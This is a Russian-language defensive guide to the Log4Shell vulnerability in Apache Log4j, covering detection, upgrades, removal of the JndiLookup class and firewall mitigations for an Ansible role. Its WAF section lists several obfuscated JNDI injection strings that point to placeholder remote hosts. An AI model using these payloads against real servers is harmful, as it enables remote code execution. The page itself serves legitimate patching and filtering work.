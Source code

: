 # Общее описание

Уязвимость в утилите журналирования Log4j от Apache Software Foundation [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Уязвимость удаленного выполнения кода под названием Log4Shell получила максимальную оценку в 10 баллов по шкале CVSSv3, поскольку ее можно эксплуатировать удаленно, и особых технических навыков для этого не требуется. Критическая опасность связана с повсеместным присутствием утилиты Log4j почти во всех основных корпоративных приложениях и серверах на базе Java. Проблема затрагивает версии log4j между 2.0-beta-9 и 2.14.1. Уязвимость отсутствует в версии log4j 1 и исправлена в версии 2.15.0[^1]. В версии 2.15.0 по умолчанию был отключен лишь один аспект функционала JNDI по поиску сообщений. Теперь же вышло второе исправление [2.16.0](https://logging.apache.org/log4j/2.x/download.html), по умолчанию отключающее всю поддержку JNDI и полностью удаляющее обработку поиска сообщений.

Выпуск второго обновления был необходим, поскольку версию 2.15.0 по-прежнему можно проэксплуатировать при определенных незаводских конфигурациях. Данная проблема получила собственный идентификатор [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046). В связи с этим в версии [2.16.0](https://logging.apache.org/log4j/2.x/download.html) JNDI выключен. JNDI представляет собой API, используемый утилитой Log4j для извлечения объектов с удаленных серверов с целью их использования в записях журнала.

## Обнаружение уязвимой библиотеки

Для анализа проблемы на хосте необходимо выполнить поиск запущенных java процессов, и проверить не используют они уязвимую библиотеку.

!!! info "Для информации"
    Для поиска роль использует скрипт по Python из проекта [fox-it/log4j-finder](https://github.com/fox-it/log4j-finder). Так как в нем используется анализ не по имени файлов, а по md5 суммам версий библиотек. Что в значительной степени повышает надежность обнаружения. В том числе обнаружение идет и в runtime LXC (docker images).

## Устранение уязвимости

### Обновление версии

Очевидное и самое правильное решение обновить версию библиотеки до последнего доступного релиза. Обновление библиотеки выполняется совместно с обновлением приложения. Для этого необходимо дождаться новой версии приложения от разработчика.

!!! attention "Внимание"
    Обновление только библиотеки может привести к полной или частично неработоспособности приложения.

### Временное решение

Это комплекс мер которы снижает риски эксплуатации данной уязвимости, если отсутствует обновление или нет возможности его применить.

!!! attention "Внимание"
    Данные решения не решают проблему полностью, а только снижают риски.

* Удалить возможность Log4j выполнять поиски уязвимых запросов. Эта функция находится в JndiLookup.class, необходимо удалить данный класс из библиотеки Log4j.

!!! example "Удаление класса"
    ``` bash
    zip -q -d <path/filename>.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
    ```

!!! attention "Внимание"
    Также рекомендуется одновременно удалить другие классы, которые также могут быть использованы в этой или подобных атаках. Эти файлы включают JndiManager, JMSAppender и SMTPAppender. Имейте в виду, что удаление классов из среды выполнения может вызвать неожиданное поведение (полную или частичную неработоспособность приложения).

!!! attention "Внимание"
    Роль удаляет только JndiLookup класс из библиотеки.

* Добавьте правила WAF для блокировки вредоносных входящих запросов.

Правила WAF (Web Application Firewall) могут быть добавлены для фильтрации входящих запросов. Вот несколько примеров попыток атак в обход правил:

!!! example "Правила WAF"
    ``` text
    ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}  
    ${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}  
    ${jndi:rmi://adsasd.asdasd.asdasd}  
    ${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}  
    ${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}  
    ${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}  
    ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}  
    ${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://%s}  
    ```

!!! attention "Внимание"
    Обратите внимание, что на этот подход нельзя полагаться, поскольку злоумышленники каждый час создают новые цепочки атак, которые могут обойти эти правила. Возможно, придется добавить их вручную, новые правила для отклонения запросов на остове ализа журналов WAF, которые выглядят как злонамеренные атаки на эту уязвимость.

* В дополнение к правилам WAF, настроить запрет исходящих соединений по протоколу LDAP на межсетевом экране.

!!! attention "Внимание"
    Блокировать необходимо не LDAP порт, а пакеты протокола LDAP.

## Ansible роль

Для определения используемых уязвимых библиотек и исправления написана ansible роль:

* infra-service.log4j

!!! tip "Подсказка"
    Для создания закладки в браузере на данное руководство: ++ctrl+d++


  [^1]: Устранена частично, остается возможность вызвать отказ в обслуживание (Denial of Service).
 
